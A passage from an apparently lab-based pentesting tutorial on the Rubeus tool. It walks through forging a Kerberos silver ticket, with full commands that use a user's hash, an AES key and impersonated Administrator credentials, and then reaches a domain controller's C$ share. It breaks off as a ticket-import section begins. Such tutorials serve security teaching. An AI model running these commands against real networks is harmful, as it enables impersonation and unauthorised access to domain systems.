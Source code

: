 - /rangeend: Specifies the maximum time tickets will be generated for. Here, 5 days. Since rangeinterval is 1d, 5 different tickets will be generated.
                
For a full list of modifications, see [this](https://github.com/GhostPack/Rubeus#ticket-forgery) page.
                
![https://i0.wp.com/blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgUypE_lTmt2yK73cZqzgsmQQNTlCV36mrTI6qA649BmStnd2VqKiA8VYyUPv6hJTM-qGOBzoeTDZ11TDCeAZrjJVNsaSkBSDHDiFU_RQEEywN-i8bA9II87KdJjC1zdo7ekO1CxpuuNA9sSlz5L-5QfhKXLmPzYasAgLoCiD9ygPjc8lF3n4wn9oZWzQ/s16000/23.png?w=640&ssl=1](https://i0.wp.com/blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgUypE_lTmt2yK73cZqzgsmQQNTlCV36mrTI6qA649BmStnd2VqKiA8VYyUPv6hJTM-qGOBzoeTDZ11TDCeAZrjJVNsaSkBSDHDiFU_RQEEywN-i8bA9II87KdJjC1zdo7ekO1CxpuuNA9sSlz5L-5QfhKXLmPzYasAgLoCiD9ygPjc8lF3n4wn9oZWzQ/s16000/23.png?w=640&ssl=1)
                
### Silver Ticket
                
Silver tickets are forged Kerberos Ticket Granting Service (TGS) Tickets but with silver tickets there is no communication with the domain controller. It is signed by the service account configured with an SPN for each server the Kerberos-authenticating service runs on. For more details visit the page **[here](https://adsecurity.org/?p=2011)**.
                
Silver ticket attack can be performed using Rubeus using silver function. Other customisations need be made like:
                
- /service: SPN of the service ticket is being generated for
                
- /rc4: Hash of a valid user (harshitrajpal here) which will be used to encrypt the generated ticket
                
- /user: username of the user whose hash is provided
                
- /creduser: User to be impersonated
                
- /credpassword: Password of the user to be impersonated
                
- /krbkey: used to create the KDCChecksum and TicketChecksum. This is the AES256 hmac sha1 hash in the following case.
                
- /krbenctype: type of encrypted hash used. Aes256 here.
                
`rubeus.exe hash /user:harshitrajpal /domain:ignite.local /password:Password@1`
                
`rubeus.exe silver /service:cifs/dc1.ignite.local /rc4:64FBAE31CC352FC26AF97CBDEF151E03 /ldap /creduser:ignite.local\Administrator /credpassword:Ignite@987 /user:harshitrajpal /krbkey:EA2344691D140975946372D18949706857EB9C5F65855B0E159E54260BEB365C /krbenctype:aes256 /domain:ignite.local /ptt`
                
![https://i0.wp.com/blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEisS0kDD040twsfat2VTDk5Vb0CHVG5Ho8l7jvHce-9bDMM8q0bKmcZS-Mft-uYxbjVHPPvftsC-fmkKmWH7JKLW7gp9OhKSsh64nwt597z00_UyhrzIsbxvWYysVr2DFj__o88gbUKXoiH8ghDmX1nttn9j0URoOF8avXUSyibjLTmYWLBDAPgqIPFHA/s16000/24.png?w=640&ssl=1](https://i0.wp.com/blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEisS0kDD040twsfat2VTDk5Vb0CHVG5Ho8l7jvHce-9bDMM8q0bKmcZS-Mft-uYxbjVHPPvftsC-fmkKmWH7JKLW7gp9OhKSsh64nwt597z00_UyhrzIsbxvWYysVr2DFj__o88gbUKXoiH8ghDmX1nttn9j0URoOF8avXUSyibjLTmYWLBDAPgqIPFHA/s16000/24.png?w=640&ssl=1)
                
This helped us generate a silver ticker for Administrator account. And as a result, we are now able to access DC machine’s C drive
                
`dir \\dc1.ignite.local\c$`                
![https://i0.wp.com/blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjXSuXCGmt8xKSiStl62a7d-U4QriyKnr09ulubQzP_4Xb3qvrtuswXkVm6d2JnRe2wW-fJCXEFZmwy-DYtS5tivoUszspE8U0tMbNs2MbnVW1rTihlWrJdQp_RlmtBhL2eIx_TwHPSn3wgsq1UfhhoPB9zY3zRsV77ZmCYZB-C8p510xPjbnutXcFNDA/s16000/25.png?w=640&ssl=1](https://i0.wp.com/blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjXSuXCGmt8xKSiStl62a7d-U4QriyKnr09ulubQzP_4Xb3qvrtuswXkVm6d2JnRe2wW-fJCXEFZmwy-DYtS5tivoUszspE8U0tMbNs2MbnVW1rTihlWrJdQp_RlmtBhL2eIx_TwHPSn3wgsq1UfhhoPB9zY3zRsV77ZmCYZB-C8p510xPjbnutXcFNDA/s16000/25.png?w=640&ssl=1)
 
### Ticket Management
            
Rubeus contains multiple ticket management options that may aid a pentester to conduct operations effectively and stealthily. As a pentester, we need to manage our generated tickets.
            
**Ptt**
            
The Rubeus ptt option can import the supplied ticket in command line. The /ptt can also be used in conjunction with other options that output tickets. For example,
            
